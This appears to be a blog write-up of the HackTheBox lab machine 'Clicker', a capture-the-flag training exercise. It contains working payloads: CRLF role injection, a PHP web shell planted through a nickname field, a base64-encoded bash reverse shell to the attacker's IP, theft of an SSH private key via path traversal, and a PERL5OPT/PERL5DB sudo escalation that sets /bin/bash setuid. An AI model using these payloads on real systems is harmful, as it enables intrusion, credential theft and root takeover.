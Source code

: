 ```yaml
---
layout: post
title: "Clicker-Linux-Medium"
date:   2025-07-10 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/5a89d213ede5af4b4f94035fd059f976.webp
---
```


# Clicker

HackTheBox: Medium

<aside>
💡 Visual is a linux  machine which handles with mount files

</aside>
<br/><br/>
## 1: Enumeration
<br/><br/>
- nmap scanning: Making port scanning we find
1. 80-http
2. 22-ssh
3. 111-rcbind
4. 2049 nfs-acl 
<br/><br/>
A server with share mounts
<br/><br/>
```bash
mkdir -p /mnt/nfs_file_shares
cd mnt 
mount -o nolock 10.10.11.232:/mnt/nfs_files_shares
cd backups
```
<br/><br/>
## 2: User flag
<br/><br/>
Copy those files to our workspace
<br/><br/>
- We found some php files looking around (save.php) theres an admin role, we go to http service and register as a user.
- We register burp suite to check request and responses and sent a request changing the role. using CRLF vulnerability
<br/><br/>

```bash
&role%0a=Admin
```

<br/><br/>
- Log out and log in again
- We can export some results and change the extension with burp suite for excecute commands in php
- There’s a vulnerable parameter called nickname
<br/><br/>

```bash
&nickname=<%3fphp+system($_GET['CMD'])+%3f>)
```

<br/><br/>
Once inside of php file we use
<br/><br/>

```bash
<file_name>.php?cmd=cat/etc/passwd
```

<br/><br/>
A user called jack in the machine
<br/><br/>
We are ready to be data
<br/><br/>

```bash
echo "sh -i >& /dev/tcp/<your_ip>/9001 0>&1" | base64
```

<br/><br/>

```bash
echo%20%22c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTQ3LzkwMDEgMD4mMQo=%22%20|%20base64%20-d%20|%20bash
```

<br/><br/>
Estabilize using python
<br/><br/>

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
ctrl + z
stty raw -echo; fg
```

<br/><br/>
There is a PKI we can see it executing
<br/><br/>

```bash
./execute_query 5 ../.ssh/id_rsa
```

<br/><br/>
This key has a problem with the format, just change the format and use
<br/><br/>

```bash
chmod 600 id_rsa 
sudo ssh -i id_rsa jack@10.10.11.232
```

<br/><br/>
![Untitled]({{ '/assets/images/f4be24e3-b650-4fa0-8967-50ac927aaa38-export-270ef6e6-110b-4fd7-b57c-8d927e335c2c/f4be24e3-b650-4fa0-8967-50ac927aaa38-export-270ef6e6-110b-4fd7-b57c-8d927e335c2c_Untitled.png' | relative_url }})
<br/><br/>
## 3: Priv esc
<br/><br/>

```bash
sudo -l
```

<br/><br/>
![Untitled]({{ '/assets/images/f4be24e3-b650-4fa0-8967-50ac927aaa38-export-270ef6e6-110b-4fd7-b57c-8d927e335c2c/f4be24e3-b650-4fa0-8967-50ac927aaa38-export-270ef6e6-110b-4fd7-b57c-8d927e335c2c_Untitled_1.png' | relative_url }})
<br/><br/>
[monitor.sh](http://monitor.sh) execute a xml_pp file lets see what it is
<br/><br/>
![Untitled]({{ '/assets/images/f4be24e3-b650-4fa0-8967-50ac927aaa38-export-270ef6e6-110b-4fd7-b57c-8d927e335c2c/f4be24e3-b650-4fa0-8967-50ac927aaa38-export-270ef6e6-110b-4fd7-b57c-8d927e335c2c_Untitled_2.png' | relative_url }})
<br/><br/>
This vulnerability is called as “perl_startup” Privilege Escalation.
<br/><br/>
That enabled me to execute scripts with root privileges, as I had the ability to configure the environment while running Perl.
<br/><br/>

```bash
sudo PERL5OPT=-d PERL5DB='exec "chmod u+s /bin/bash"' /opt/monitor.sh
bash -p
```

<br/><br/>
Machine pwned!!!!

<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>


<link rel="stylesheet" href="{{ '/assets/css/imagesstyle.css' | relative_url }}">
